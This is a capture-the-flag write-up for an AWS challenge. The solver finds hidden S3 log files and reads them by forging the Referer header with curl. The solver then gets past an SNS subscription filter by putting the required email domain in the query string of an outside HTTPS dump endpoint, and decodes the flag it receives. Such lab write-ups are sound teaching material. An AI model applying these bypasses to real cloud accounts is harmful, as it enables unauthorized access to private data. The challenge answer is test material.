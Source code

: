 # Cryptic Talks!

## Task

![todo](images/04-01.png)

> Your recon team has discovered critical Syndicate communications and plans are stored in an S3 bucket, accessed
through a file viewer application. Decode these hidden sensitive documents to find out more about their plans.

## Solution

We can see some files in the file viewer application.

![todo](images/04-02.png)

Checking out the page source, we can spot JavaScript code that grabs objects from an S3 bucket and shows only the ones
under the `files/` prefix:

```javascript
// Make a request to list objects in the bucket
$.ajax({
  url: bucketUrl,
  success: function (data) {
    // Parse the XML response
    var xml = $(data);

    // Extract file and folder information from the XML response
    var entries = xml.find("Contents");

    // Display the entries in the table
    var fileList = $("#file-list");
    entries.each(function () {
      var entry = $(this);
      var name = entry.find("Key").text();
      var size = entry.find("Size").text();
      var lastModified = entry.find("LastModified").text();

      var iconClass = getIconClass(name);

      if (name.startsWith("files/") && name != "files/") {
        // Check if it's a file or a folder
        if (entry.is("Contents")) {
          fileList.append(
            '<tr class="w-full cursor-pointer p-2 text-gray-900 rounded-lg dark:text-white hover:bg-gray-100 dark:hover:bg-gray-700" onclick="openFile(\'' +
              name +
              '\')"><td scope="row" class="flex mr-2 px-6 py-4 font-medium text-gray-900 whitespace-nowrap dark:text-white">' +
              iconClass +
              name.replace('files/','') +
              '</td><td class="px-6 py-4">' +
              size +
              '</td><td class="px-6 py-4">' +
              lastModified +
              "</td></tr>"
          );
        }
      }
    });
  },
  error: function (error) {
    console.error("Error:", error);
  },
});
```

Let's use Burp Suite Interceptor to see what is actually returned from the S3 bucket:

![todo](images/04-03.png)

In the response from S3, we can see a few files under the `logs` prefix, which are not displayed in the web application:

```xml
<Contents>
	<Key>logs/comms.log</Key>
	<LastModified>2024-01-30T04:39:34.000Z</LastModified>
	<ETag>&quot;6793ef7d841617e31f9d93fff6994966&quot;</ETag>
	<Size>1759</Size>
	<StorageClass>STANDARD</StorageClass>
</Contents>
<Contents>
	<Key>logs/site.log</Key>
	<LastModified>2023-12-21T11:28:06.000Z</LastModified>
	<ETag>&quot;21a680a3dfcf4dba3e4cc46510e7d6ab&quot;</ETag>
	<Size>3486</Size>
	<StorageClass>STANDARD</StorageClass>
</Contents>
<Contents>
	<Key>logs/web.log</Key>
	<LastModified>2023-12-21T11:28:10.000Z</LastModified>
	<ETag>&quot;672a1c149bf89868abe055d76c021aa3&quot;</ETag>
	<Size>100825</Size>
	<StorageClass>STANDARD</StorageClass>
</Contents>
```

When trying to access these objects we get the "Access Denied" error. However, the file viewer web application is able
to retrieve the files without any credentials. In the intercepted request sent by the file viewer, we can notice it sets
the `Referer` HTTP header. It's possible that the S3 bucket policy
[restricts access only to a specific HTTP referer](https://docs.aws.amazon.com/AmazonS3/latest/userguide/example-bucket-policies.html#example-bucket-policies-HTTP-HTTPS). We can access the S3 objects by specifying the same `Referer` header as the
web app. The `logs/comms.log` file is particularly interesting:

```
➜  ~ curl -H "Referer: https://5cqjmgzfna.execute-api.us-east-1.amazonaws.com/" https://syndicate-files-7474849.s3.amazonaws.com/logs/comms.log
Syn4w: Hey, I found this file in the logs bucket. It seems to contain a communication log between some members. There's someone here using SNS topics to broadcast cryptic strings to others.

Cipher404: Interesting, Syn4w. Let's decrypt this. Who's the operative behind these cryptic messages?

Syn4w: The sender is Alex Johnson, operating under the cover email "alex.johnson@synd1cat3.org"

Cipher404: Got it. And the recipient?

Syn4w: Sarah Martinez, using the cover email "sarah.martinez@synd1cat3.org"

Cipher404: Perfect. Now, any idea what these cryptic messages are about?

Syn4w: They seem project-related, discussing target updates and technical details.

Cipher404: Intriguing. Any leads on Alex's AWS account?

Syn4w: Yeah, he dropped his AWS account ID in one of the messages: "816362139463"

Cipher404: Good find. Now, where's Alex based?

Syn4w: He's working out of North Virginia.

Cipher404: Excellent. So, we have Alex Johnson, "alex.johnson@synd1cat3.org," AWS account "816362139463" North Virginia.

Syn4w: Right. Now, let's uncover the SNS topic name. That might lead us to more answers.

Cipher404: Agreed. Scanning the messages for any mention of SNS topics...

Syn4w: Found it! In one of the messages, Alex referred to the SNS topic as "ch4_topic"

Cipher404: Perfect. That's the missing link. The SNS topic name is "ch4_topic" We can use this to trace the messages and dig deeper.

Syn4w: Mystery solved, Cipher404! Our next move?

Cipher404: We'll follow the trail using this SNS topic. Keep an eye out for any anomalies. And, Syn4w, great work. We'll get to the bottom of this.

Syn4w: Thanks, Cipher404. Let's proceed with caution.

Cipher404: Absolutely. Stay vigilant, Syn4w. We'll unveil the secrets behind these cryptic strings.
```

After enumerating the SNS topic using the credentials of the `SecretDataViewer` role, it turns out we can only subscribe
to the topic when the notification endpoint ends with `@synd1cat3.org`. Most of the notification endpoint types don't
support the `@` character in their names, but `@` can be placed in a URL query string. We can use for example
[httpdump.app](https://httpdump.app) as an HTTPS notification endpoint:

```
➜  ~ aws sns subscribe --topic-arn arn:aws:sns:us-east-1:816362139463:ch4_topic --protocol https --notification-endpoint 'https://httpdump.app/dumps/61dfe48f-0b2c-4a0f-850c-cd96a2ab90b7?_=member@synd1cat3.org' --no-cli-pager

{
    "SubscriptionArn": "pending confirmation"
}
```

In the HTTP dump, we should see a request from SNS for the subscription confirmation:


![todo](images/04-04.png)

Once we confirm the subscription, we should start receiving the messages from the SNS topic. The messages are
Base64-encoded:

![todo](images/04-05.png)

Decode the Base64-encoded message:

```
➜  ~ echo SW5pdGlhdGluZyBzZWN1cmUga2V5IGV4Y2hhbmdlOiBUcmFuc21pdHRpbmcgc2VjcmV0IGtleSwgZW5zdXJlIHNlY3VyZSBjaGFubmVsIGZvciByZWNlcHRpb24uOiBGTEFHezdlNTJjNDg4OWFhNjc3OWZhMzE3YzA5YmY0ODkwY2Y4fQ== | base64 -d

Initiating secure key exchange: Transmitting secret key, ensure secure channel for reception.: FLAG{7e52c4889aa6779fa317c09bf4890cf8}
```
